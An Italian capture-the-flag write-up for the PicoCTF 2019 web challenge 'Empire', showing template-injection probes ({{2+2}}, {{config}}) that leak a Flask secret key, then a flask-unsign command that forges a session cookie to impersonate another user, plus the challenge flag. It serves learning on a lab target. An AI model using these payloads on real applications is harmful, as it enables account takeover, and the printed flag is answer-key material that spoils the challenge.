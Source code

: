 ```yaml
---
tags:
  - WebExploitation
  - PicoCTF2019
---
```



## Problema

Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans? https://2019shell1.picoctf.com/problem/45132/ (link) or http://2019shell1.picoctf.com:45132

## Soluzione

Andiamo sul sito e ci registriamo come nei precedenti Empire.
Proviamo subito a inserire un TODO come {{2+2}} e ottengo 4, ok assomiglia al problema precedente.
Provo come prima {{config}} e ottengo `('SECRET_KEY', '9806d62bb5f4986c09a3872abf448e85')`.
Inoltre decodificando il cookie con il sito [qui](https://www.kirsle.net/wizards/flask-session.cgi) non ottengo la chiave come prima ma:
```json
{
    "_fresh": true,
    "_id": "9c55bbdc76c3e625db66374ff87654a1cbed11dc6d90b88ba6de4f52e357e0e92c3250dc34a136ad75468aabfb463e4a81ecd8acf21e63f59b6b2a9e4218a07c",
    "csrf_[[token]]": "998cba6a60d27996fe91442832be6babb25b447c",
    "user_id": "3"
}
```
Probabilmente se riuscissi a mettere un cookie con user_id 1 o 2 potrei avere delle informazioni interessanti.
Usando la `SECRET_KEY` potrei usare il [Flask Cookie Encoder](https://github.com/Paradoxis/Flask-Unsign) con il comando
```
flask-unsign --sign --cookie "{'_fresh': True, '_id': '9c55bbdc76c3e625db66374ff87654a1cbed11dc6d90b88ba6de4f52e357e0e92c3250dc34a136ad75468aabfb463e4a81ecd8acf21e63f59b6b2a9e4218a07c', 'csrf_[[token]]': '998cba6a60d27996fe91442832be6babb25b447c', 'user_id': '2'}" --secret '9806d62bb5f4986c09a3872abf448e85'
```
e ottengo un valore che inserito come cookie session fornisce la flag
```
picoCTF{cookies_are_a_sometimes_food_8038d44f}
```
